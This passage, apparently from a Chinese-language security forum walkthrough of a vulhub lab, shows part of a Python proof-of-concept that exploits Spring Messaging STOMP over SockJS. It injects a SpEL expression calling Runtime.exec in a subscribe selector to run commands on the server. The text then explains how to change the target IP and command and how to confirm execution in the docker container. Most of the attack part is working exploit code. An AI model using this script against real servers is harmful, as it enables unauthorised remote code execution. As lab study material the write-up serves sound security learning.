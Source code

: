 ```php
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()

sockjs = SockJS('http://your-ip:8080/gs-guide-websocket')
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})
sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)

```

然后我们这里要进行修改 所以Poc并不通用

![image-20210522093127253](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9582f70170eb4c8b8f23e67ba23714f1bf900dc1.png)

一个是被攻击的IP

一个是执行的命令

一个是名字

进行修改后

![image-20210522093214720](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-29841b72dc8792ef1bb6893b856b23186f1726d2.png)

进行执行

![image-20210522093250917](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9a39abb31ee2466537ed0bb4a9dcc667b3786980.png)

去docker底层查看执行是否成功

![image-20210522093404508](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-deb047dfbd4e7fdfa69ae7a2635c91874f030c55.png)
